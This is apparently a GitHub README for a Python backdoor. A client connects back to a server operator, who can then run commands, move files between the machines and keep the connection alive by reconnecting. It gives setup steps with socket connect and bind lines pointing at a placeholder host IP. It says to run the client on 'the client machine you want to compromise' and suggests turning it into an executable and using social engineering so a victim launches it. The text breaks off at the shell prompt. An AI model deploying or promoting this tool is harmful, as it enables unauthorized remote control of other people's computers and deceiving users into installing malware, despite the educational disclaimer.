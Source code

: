 # Python Backdoor Project

## Description
This project consists of a Python backdoor implementation consisting of a **client** and a **server**. The client connects to the server and allows the server operator to remotely execute commands and transfer files between the two systems. This project was developed for educational and security research purposes only, with the aim of demonstrating how backdoor communications and remote command execution techniques work.

## ⚠️ WARNING ⚠️
This project is highly dangerous and its use on unauthorized systems is illegal and unethical. **Do not use this code in production environments, networks or devices that do not belong to you.** Improper use of this project may result in serious legal and moral consequences.

## Features
1. **Remote Command Execution**: Allows the server to send commands to be executed on the client.
2. **File Transfer**: The client and server can exchange files with each other.
3. **Persistence**: The client automatically tries to reconnect to the server in case of connection failure.

## Project Structure
- `client.py`: Client code that connects to the server and executes received commands.
- `server.py`: Server code that accepts client connections and sends commands for execution.

## Requirements
- Python 3.x
- Network connection between client and server

## Usage

### 1. Server Configuration
1. **Edit `server.py`**:
- Insert the IP address of the machine where the server will be executed in the line:
```python
sock.bind(('!!!Put your Host IP here!!!', 5555))
```

2. **Start the Server**:
- Run `server.py` to start the server in listening mode:
```bash
python server.py
```
- The server will wait for client connections.

### 2. Client Configuration
1. **Edit `client.py`**:
- Insert the server's IP address in the line:
```python
s.connect(('!!!Put your Host IP here!!!', 5555))
```

2. **Start the Client**:
- Run `client.py` on the client machine you want to compromise:
```bash
python client.py
```

3. **Client Connection**:
- Once started, the client will attempt to connect to the specified server.
- The server will display a message confirming the connection:
```
[+] target connected from: <client IP>
```

4. **Another alternative**:
- Another alternative that can be followed is to create an executable of client.py and place it on the target machine. Using social engineering you can make the user click on the executable to launch the backdoor.

### 3. Client Interaction
- From the server, you can send commands to the client using the interactive command line:
```bash
* Shell~<client IP>:~~
